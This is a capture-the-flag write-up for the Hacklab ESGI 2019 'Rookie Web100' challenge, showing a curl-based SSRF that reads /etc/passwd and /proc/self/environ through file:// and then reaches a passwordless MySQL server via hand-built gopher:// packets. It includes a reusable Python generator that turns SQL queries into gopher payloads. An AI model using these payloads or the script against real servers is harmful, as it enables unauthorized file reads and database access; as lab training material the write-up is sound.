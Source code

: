 ```yaml
---
title: "Hacklab ESGI 2019 |  Rookie Web100 Writeup"
author: "CHERIEF Yassine"
date: 2019-04-08T10:59:30+02:00
subtitle: "SSRF using gopher and curl"
tags: ["ctf", "writeup", "security", "web", "gopher", "exploit"]
categories: ["security", "writeups"]
---
```


## Challenge Description

| **Category**  | **Points** | **Solves** |
|-----------|--------|--------|
| web | 100    | 18     |

<br>
![rookie_chall_description](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554751591/rookie_description.png)

This is the URL for the challenge.  

**`URL:http://ctf.hacklab-esgi.org:8082/`**

So, as soon as we visit the given URL, we get a simple web page saying `Website Checker` and the title saying `super curling` (this gonna be fun!!). we notice that there is one input in the page, whatever you give as input gets passed to `curl` as a parameter. At first I thought that it was a just a simple command injection vulnerability (this supposition tuned out to be `False!`).

![super_curling_webpage](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554752661/super_curling.png)

If we provide `www.google.com` as input, we get the content of google displayed to us.So I started playing with the input to see if I can get some unexpected output.  

Let's try to access `/etc/passwd`, we will use the `file` protocol to do so, we can get access to local files with curl using the file protocol.    
**`input: file:///etc/passwd`**  

![etcpasswd_curl](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753146/etcpasswd_curl.png)

we can notice `mysql` and `www-data` users.  
Let's try accessing `/proc/self/environ`, by inputing `file:///proc/self/environ`.  

![proc_self_environ](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753425/proc_self_environ.png)

PWD = /var/www/html

let's try accessing **/var/www/html/config.php**, we get nothing :'(, after a while a friend told me to check **/var/www/html/config_test.php**, after doing that, nothing gets included in the page, but if we check the page source (`Ctrl+U`), we get some interesting php code.

![page_source](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554753689/page_source_config_test.png)

We notice an interesting comment, 

```php
// TODO: MySQL connection with "tiix" user and adding a MySQL password...
```

We have a mysql user `tiix` with no password!!.

let's use `gopher` protocol and build a GREAT payload to connect to the database as `tiix` user.

To do so, we need to know how does mysql creates a connection packet and the Query as well.

let's sniff some traffic generated by the `mysql` command on our own machine.


I have created a new mysql user before that, its not really necessary.

```sql
CREATE USER 'tiix'@'localhost';
```

We can now execute the mysql command and see the generated packets in `wireshark`.

```bash
mysql -u tiix -h 127.0.0.1
```

![wireshark_mysql_conn](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754846/wireshark_mysql_conn.png)

we now need to convert to `Raw bytes` and make a gopher payload link.

- **converting to raw bytes in wireshark**  

![raw_bytes_mysql_packet](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554754847/wireshark_mysql_raw_bytes.png)

- **making a gopher payload link.**

To do so all we need to do is precced each byte with an `%` symbol.

here is a script to do it with python.

```python
def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)
```

we get this payload as a result.  

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%69%69%78%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%01%00%00%00%03%01%00%00%00%01
```

Here is the result when inputing the payload.  
![result_gopher_paylaod1](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554755781/result_gopher_payload_1.png)

We can see the mysql Database version in the output.
Now we can execute SQL queries.
Here is a script I made to automate the process, it takes a query as argument and returns a gopher payload link. (We no longer need wireshark!!).

```python
#!/usr/bin/python3

# coding : utf-8
import sys


global mysql_username
global hex_user

mysql_username = 'tiix'
hex_user = mysql_username.encode().hex()


def gopher_exploit(payload_str):
    payload = [payload_str[i:i+2] for i in range(0, len(payload_str), 2)]
    return 'gopher://127.0.0.1:3306/_%' + '%'.join(payload)

def main(query):
    global mysql_username
    global hex_user

    length = 'a3'
    if len(mysql_username) - 4 != 0:
        length = (chr(0xa3+(len(mysql_username) - 4))).encode().hex()


    conn_packet = length + '00000185a6ff0100000001210000000000000000000000000000000000000000000000'
    conn_packet += hex_user
    conn_packet += '00006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c'
    conn_packet += '69626d7973716c045f7069640532373235350f5f636c69656e745f76657273696f6e06352e372e3232095f706c6174666f726d'
    conn_packet += '067838365f36340c70726f6772616d5f6e616d65056d7973716c'


    auth = conn_packet.replace('\n', '')

    query = query.strip()
    hex_query = query.encode().hex()
    query_len_hex = '{:x}'.format((int((len(hex_query) / 2) + 1)))

    query_payload = query_len_hex.rjust(2,'0') + "00000003" + hex_query


    print(gopher_exploit(auth + query_payload + '0100000001'))


if __name__ == "__main__":
   query = sys.argv[1]
   main(query)
```

- **let's dump databases**

```bash
python3 exploit.py "show databases"
```

After inputing the resulting gopher payload link we find a database named `securityday`.

- **Dumping database tables.**

```bash
python3 exploit.py "use securityday;show tables;"
```

We get two tables:

- nothinghere
- users

Let's select now everything from `nothinghere`.

```bash
python3 exploit.py "use securityday; SELECT * FROM nothinghere;"
```

After the last payload we get the flag :D.

![flag_rookie](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554756722/flag_rookie.png)


**`FLAG: ESGI{W3lC0me_R00ki3_M0th3r_1s_0ld}`**
























